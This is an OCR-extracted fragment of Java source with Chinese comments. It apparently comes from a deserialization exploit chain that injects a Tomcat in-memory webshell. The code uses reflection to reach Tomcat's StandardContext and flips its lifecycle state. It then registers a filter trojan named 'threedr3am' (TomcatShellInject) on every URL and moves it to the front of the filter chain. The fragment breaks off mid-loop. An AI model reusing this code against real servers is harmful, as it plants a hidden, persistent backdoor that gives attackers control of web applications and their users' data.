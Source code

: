 ```java
            //不为空则意味着第一次反序列化的准备工作已成功
            if (t != null && t.get() != null) {
                servletRequest = (ServletRequest) t.get();
            }
            if (servletRequest != null) {
                javax.servlet.ServletContext servletContext = servletRequest.getServletContext();
                org.apache.catalina.core.StandardContext standardContext = null;
                //判断是否已有该名字的filter，有则不再添加
                if (servletContext.getFilterRegistration("threedr3am") == null) {
                    //遍历出标准上下文对象
                    for (; standardContext == null; ) {
                        java.lang.reflect.Field contextField = servletContext.getClass().getDeclaredField("context");
                        contextField.setAccessible(true);
                        Object o = contextField.get(servletContext);
                        if (o instanceof javax.servlet.ServletContext) {
                            servletContext = (javax.servlet.ServletContext) o;
                        } else if (o instanceof org.apache.catalina.core.StandardContext) {
                            standardContext = (org.apache.catalina.core.StandardContext) o;
                        }
                    }
                    if (standardContext != null) {
                        //修改状态，要不然添加不了
                        java.lang.reflect.Field stateField = org.apache.catalina.util.LifecycleBase.class
                            .getDeclaredField("state");
                        stateField.setAccessible(true);
                        stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTING_PREP);
                        //创建一个自定义的Filter马
                        Filter threedr3am = new TomcatShellInject();
                        //添加filter马
                        javax.servlet.FilterRegistration.Dynamic filterRegistration = servletContext
                            .addFilter("threedr3am", threedr3am);
                        filterRegistration.setInitParameter("encoding", "utf-8");
                        filterRegistration.setAsyncSupported(false);
                        filterRegistration
                            .addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false,
                                new String[]{"/*"});
                        //状态恢复，要不然服务不可用
                        if (stateField != null) {
                            stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTED);
                        }

                        if (standardContext != null) {
                            //生效filter
                            java.lang.reflect.Method filterStartMethod = org.apache.catalina.core.StandardContext.class
                                .getMethod("filterStart");
                            filterStartMethod.setAccessible(true);
                            filterStartMethod.invoke(standardContext, null);

                            //把filter插到第一位
                            org.apache.tomcat.util.descriptor.web.FilterMap[] filterMaps = standardContext
                                .findFilterMaps();
                            for (int i = 0; i < filterMaps.length; i++) {
                                if (filterMaps[i].getFilterName().equalsIgnoreCase("threedr3am")) {
                                    org.apache.tomcat.util.descriptor.web.FilterMap filterMap = filterMaps[i];
```